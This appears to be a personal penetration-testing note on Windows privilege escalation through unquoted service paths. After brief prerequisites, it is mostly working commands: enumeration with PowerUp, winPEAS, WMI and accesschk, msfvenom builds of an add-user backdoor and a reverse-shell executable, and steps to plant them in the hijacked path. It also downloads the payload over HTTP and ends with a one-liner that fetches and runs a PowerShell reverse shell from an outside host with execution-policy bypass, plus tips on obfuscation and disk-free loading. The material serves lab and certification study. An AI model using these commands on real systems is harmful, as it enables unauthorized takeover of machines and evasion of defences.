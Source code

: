 #### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview | Service Misconfiguration

Unquoted Service Path exploitation Pre-requisite

	- PATH is not using Quotes and Contains Space
	- Writeable PATH: Users should have write access in one of the folders where the binary path resides
	- Executes as LocalSystem
	- Users should have the right to restart the Service
## Enumeration 

### Script Enumeration
- Import script in memory & Do not touch the disk
- PowerShell Script Obfuscation Tools: https://github.com/JoelGMSec/Invoke-Stealth
```markdown
# PowerUp Obfuscated
GitHub Fetch Scipt > Execute! 
[RT GitHub: PScriptsObs: Scripts Obfuscated via chameleon](https://github.com/raghavtalwar/PScriptsObs/)

# PS Scripts
*PowerUp*
powershell.exe -nop -exec bypass -c ". .\PowerUp.ps1;Get-UnquotedService"
*Winpeas*
.\winPEAS.exe quiet servicesinfo

## Find them
powershell> Get-UnquotedService
powershell> Get-ModifiableServiceFile
powershell> Get-ModifiableService

# Execure a reverse shell or adding new user as administrator.
Write-ServiceBinary -name "Service_Name" -Path "C:\Service_name.exe"
Write-ServiceBinary -Name 'SalesFarce' -Path <HijackPath>
```
### Manual Enumeration
```
##  WMI (Powershell) ##
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

##  Windows Management Instrumentation Command-Line (WMIC)  ##
CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths 
CMD:> .\accesschk64.exe /accepteula -uwcqv studentuser ***
PS:> Get-WmiObject -Class win32_service | select pathname
	+ Look out for Service with Spaces and not having Quotes!

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary

```

![[Pasted image 20240330234652.png]]
## Exploitation 
### Create Malicious Service
```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Replace Service
#### Fetch the reverse.exe executable & Rename Correctly  >>  SMB
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
`Ren "C:\Program Files\Unquoted Path Service\Common.exe" Unquoted.exe
#### Fetch the reverse.exe executable & Copy Correctly  >>  HTTP
`IWR -Uri 'http://10.0.2.54:90/reverse.exe' -Outfile "BOOTP.exe"
`copy C:\Temp\BOOTP.exe "C:\Program Files\BOOTP.exe"
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
	or
	- `sc stop service_name
	- `sc start service_name`
- If unable to start the service try rebooting machine
	- `shutdown /r /t 0`

## Resources

```markdown
```

#### Notes | Bonus
- Create Links to this Page! 
##### Spawn Powershell from Command Injection Vulnerability
`\\10.0.2.54\kali\nc.exe 10.0.2.54 443 -e "cmd.exe /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass iex(new-object net.webclient).downloadstring('http://10.0.2.54/Invoke-PowerShellTcp.ps1')"`
	+ Bypass Execution Policy as well!
